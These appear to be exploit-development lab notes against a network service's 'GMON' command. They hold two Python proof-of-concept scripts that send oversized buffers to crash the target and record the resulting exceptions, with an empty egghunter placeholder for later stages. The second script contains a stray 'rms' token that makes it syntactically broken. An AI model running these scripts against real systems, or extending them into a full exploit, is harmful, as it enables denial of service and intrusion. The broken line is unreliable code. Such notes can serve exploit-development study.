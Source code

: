 # Initial payload

- Code

```
#!/usr/bin/python

import socket
import os
import sys
from struct import pack


host = sys.argv[1]
port = int(sys.argv[2])
egghunter = b""

buffer =  b"GMON "
buffer += b"./"*10000

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print (s.recv(1024))
s.send(buffer)
print (s.recv(1024))
s.close()
```

- Screenshot

![4b749a6b29b95f05cfd940b537976ac8.png](../_resources/4b749a6b29b95f05cfd940b537976ac8.png)

# Update Payload 00

## Code

```
#!/usr/bin/python

import socket
import os
import sys
from struct import pack

host = sys.argv[1]
port = int(sys.argv[2])
egghunter = b""

buffer =  b"GMON "rms
buffer += b"./"+b"A"*10000

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print (s.recv(1024))
s.send(buffer)
print (s.recv(1024))
s.close()
```

## Screenshot
### 1st exception
![4111638e417036fff6709e9697968f53.png](../_resources/4111638e417036fff6709e9697968f53.png)

### 2nd exception
![b55db23946d64bd6e022845e470e316a.png](../_resources/b55db23946d64bd6e022845e470e316a.png)



